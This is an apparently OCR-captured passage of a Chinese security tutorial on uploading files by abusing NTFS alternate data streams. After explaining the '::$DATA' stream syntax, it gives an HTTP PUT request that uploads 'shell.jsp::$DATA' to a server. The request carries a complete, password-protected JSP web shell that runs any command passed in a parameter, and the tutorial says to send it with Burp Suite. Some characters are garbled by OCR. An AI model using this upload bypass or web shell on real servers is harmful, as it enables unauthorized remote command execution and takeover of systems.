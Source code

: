 #### 漏洞利用

##### 上传姿势一：

参考思路:微软MSDN上关于NTFS Streams的一段资料https://msdn.microsoft.com/en-us/library/dn393272.aspx

大概意思:

[NTFS](https://forum.90sec.com/t/topic/66#gt_86f79a17-c0be-4937-8660-0cf6ce5ddc1a)卷上的所有文件至少包含一个流 - 主流 - 这是存储数据的普通可查看文件。流的全名是以下形式。

```
Copy to clipboard<filename>：<stream name>：<stream type> 
```

默认数据流没有名称。也就是说，名为`sample.txt`的文件的默认流的完全限定名称是`ample.txt :: $ DATA`，因为`sample.txt`是文件的名称，`$ DATA&`是流类型。

用户可以在文件中创建命名流，并将`$ DATA`创建为合法名称。这意味着对于此流，全名是`sample.txt：$ DATA：$ DATA`。如果用户创建了名为`bar`的命名流，则其全名为`sample.txt：bar：$ DATA`。文件名的任何合法字符对于流名称（包括空格）都是合法的。

对于目录，没有默认数据流，但有一个默认目录流。目录是流类型$ INDEX_ALLOCATION。$ INDEX_ALLOCATION类型（目录流）的默认流名称是$ I30。（这与$ DATA流的默认流名称形成对比，后者具有空的流名称。）以下是等效的：

```
Copy to clipboardDir C：\ Users
Dir C：\ Users：$ I30：$ INDEX_ALLOCATION
Dir C：\ Users :: $ INDEX_ALLOCATION 
```

虽然目录没有默认数据流，但它们可以具有命名数据流。这些备用数据流通常不可见，但可以使用DIR命令的/ R选项从命令行观察。

payload:

```
PUT /shell.jsp::$DATA HTTP/1.1  
Host: 172.26.1.8:8080  
Content-Length: 662 `<%@ page language=“java” import=“java.util.*,[java.io](http://java.io).*” pageEncoding=“UTF-8”%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec©;BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp

+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if(“023”.equals(request.getParameter(“pwd”))&&!"".equals(request.getParameter(“cmd”))){out.println("<pre>"+excuteCmd(request.getParameter(“cmd”))+"</pre>");}else{out.println(":-)");}%>` 
```

我们利用burpsuite来发送我们的payload

![image](../img/abb64aa25dcd0a1af33603d3722422d6.png)
